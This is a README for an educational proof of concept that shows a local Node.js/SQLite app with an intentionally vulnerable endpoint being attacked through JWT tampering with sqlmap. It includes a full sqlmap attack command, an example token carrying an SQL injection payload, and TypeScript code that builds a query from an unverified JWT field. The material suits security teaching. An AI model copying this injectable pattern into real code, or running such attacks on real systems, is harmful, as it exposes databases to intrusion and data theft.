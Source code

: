 # sqlmap jwt tampering on node.js sqlite application
POC for educational purposes

Application is based on [https://github.com/jerrychong25/node-express-sqlite-jwt-typescript-typeorm](https://github.com/jerrychong25/node-express-sqlite-jwt-typescript-typeorm)

I initially wrote an tamper script but [this]()https://www.craftypenguins.net/capture-the-flag-ctf-challenge-part-5/ article offered a much mature script. written by Curtis Hildebrand

## Getting Started

First we need to get our environment up and running
```
npm i
npm start
```
Should open a server at http://localhost:3000

## Burp
to make view the traffic of sqlmap we can open up Burp suite to proxy through localhost:8080


## sqlmap

make sure to install sqlmap
`brew install sqlmap`

## command explained
```Bash
sqlmap -u  http://localhost:3000/user/vulnEndpoint --flush-session --fresh-queries --headers "auth:*" --dbms sqlite3 --proxy "http://localhost:8080" --risk 3 --level=5 --tamper tamper.py --tables --data ""
```

Our vulnerable endpoint `http://localhost:3000/user/vulnEndpoint` would be bombarded with requests containing the auth header specified by `--headers "auth:*"` we are using a sqlite3 database. As mentioned we would proxy traffic through burp suite, risk and level set to high to perform all the tests fast. the `--tamper` flag specifies the tamper script that sqlmap would use. `--tables` - we would like a list of tables after the succesful exploitation. And lastly we would pass the `--data` flag to force a POST request.

## Code

Our vulnerable endpoint looks like this:
```Typescript
static postVulnerableEndpoint = async (req: Request, res: Response) => {
    //auth header example: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsInVzZXJuYW1lIjoic3FsaXRlX3ZlcnNpb24oKTsgLS0gIiwiaWF0IjoxNjUxMzA1NzU0LCJleHAiOjE2NTEzMDkzNTR9.KEfRab8qizSrWH59J1dJjgHrTL85C8VZBtBmuceivOc
    let token: string = req.headers["auth"].toString();
    let jwtPayload = <any>decode(token);
    if(!jwtPayload || token==""){
      console.log("jwtPayload",jwtPayload)
      res.send("error no username found in token / token not decoded currectly")
      return;
    }
    else{
      console.log(jwtPayload.username)

      let q = `SELECT ${jwtPayload.username} FROM user`
      const entityManager = getManager();
      let response = "";
      try{
        const someQuery = await entityManager.query(q)
        response = JSON.stringify(someQuery)
      }
      catch (error){
        res.send("error logging in as :"+ error);
        return;
      }
        res.send("VulnEndpoint logged in as :"+ response );
        return

      }
    };
```

We have a decode function that would take the JWT token from the "auth" header and simply provide us with the username parameter. The applicaiton would then craft a non-parameterized dynamic query using the username parameter and query the database.
the reponse or error would then be sent back to the user.

